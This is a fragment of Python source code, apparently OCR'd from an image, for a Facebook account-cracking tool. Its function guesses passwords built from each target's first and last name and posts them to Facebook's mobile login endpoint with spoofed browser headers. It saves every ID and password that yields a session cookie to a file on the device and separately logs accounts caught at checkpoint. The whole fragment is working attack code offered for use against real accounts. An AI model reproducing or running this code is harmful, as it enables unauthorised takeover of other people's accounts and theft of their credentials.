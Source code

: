 def m4(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [FOF] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'x.facebook.com', 'viewport-width': '980',  'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'same-origin', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Fof=session.cookies.get_dict().keys()
                        if "c_user" in Fof:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [FOF\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                #cek_apk(session,coki)
                                #print(f'\033[1;36m [Cookie]\033[1;37m : '+coki)
                                open(f'/sdcard/FOF•OK•M4.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Fof:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [FOF•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/FOF•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1


Fof()
